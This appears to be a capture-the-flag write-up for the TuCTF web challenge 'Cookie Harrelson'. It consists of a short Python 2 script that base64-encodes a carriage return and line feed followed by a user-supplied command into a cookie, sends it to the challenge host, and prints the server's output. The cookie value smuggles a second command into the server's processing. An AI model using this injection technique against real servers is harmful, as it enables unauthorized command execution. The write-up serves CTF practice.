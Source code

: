 # Web (200)

>Woody Harrelson has decided to take up web dev after learning about Cookies. Show him that he should go back to killing zombies.
>http://cookieharrelson.tuctf.com

```python
#!/usr/bin/env python2

import base64
import sys
import requests

source = requests.get(
  "http://cookieharrelson.tuctf.com", 
  cookies = { "tallahassee": base64.b64encode(chr(0x0d) + chr(0x0a) + sys.argv[1]) }
).content

print "\n".join(source.split("\n")[3:])
```

